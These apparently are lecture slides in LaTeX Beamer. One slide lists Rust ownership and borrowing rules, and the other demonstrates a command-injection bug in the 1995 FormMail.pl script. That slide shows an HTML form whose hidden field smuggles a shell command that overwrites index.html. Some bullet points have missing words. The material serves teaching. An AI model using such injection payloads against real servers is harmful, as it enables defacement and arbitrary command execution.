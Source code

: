 \begin{frame}{Rust disciplines}
    \begin{itemize}
    \item each object has  --- only deleter
    \item object may be  from owner --- owner can't delete
    \item exactly one writer or many readers (never both)
        \begin{itemize}
        \item no reading internal pointers that then change
        \end{itemize}
    \item compiler tracking of  of borrowing
    \item alternate (runtime-tracked) rules: reference-counting, `dynamic' borrowing
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=bugInFormMail]{a bug in FormMail.pl}
    \begin{itemize}
        \item 1995 script
        \item example, write "You have been hacked!" to index.html
            \begin{itemize}
                \item (if user script runs as can change it)
            \end{itemize}
    \end{itemize}
    \begin{verbatim}
<form action="http://example.com/formmail.pl" method="POST">
<input type="hidden" name="recipient"
        value="; echo 'You have been hacked!' >index.html"
>
...
<input type="submit">
</form>
\end{verbatim}
    \begin{itemize}
        \item view HTML in web browser, click submit button
    \end{itemize}
\end{frame}

